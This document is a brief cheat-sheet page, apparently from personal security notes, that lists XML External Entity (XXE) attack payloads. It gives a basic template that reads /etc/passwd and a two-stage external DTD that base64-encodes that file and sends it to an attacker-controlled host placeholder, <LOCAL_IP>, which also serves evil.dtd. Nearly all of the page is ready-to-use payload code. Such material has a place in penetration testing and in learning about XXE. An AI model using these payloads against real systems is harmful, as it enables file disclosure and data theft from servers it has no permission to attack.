 ```yaml
---
title: "XXE (XML External Entity)"
date: 2024-7-5
tags: ["xxe", "xml", "dtd", "web"]
---
```


### XXE Template

<div>

```console
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY data SYSTEM "/etc/passwd">]>
<product>
    <id>&data;</id>
    <price></price>
</product>
```

</div>

### External DTD (2 stage)

<div>

```console
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://<LOCAL_IP>/data?%data;'>">
```

</div>

<br>

<div>

```console
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % bar SYSTEM "http://<LOCAL_IP>/evil.dtd">
        %bar;
        %eval;
]>
<product>
    <id>&exfil;</id>
    <price></price>
</product>
```

</div>

<br>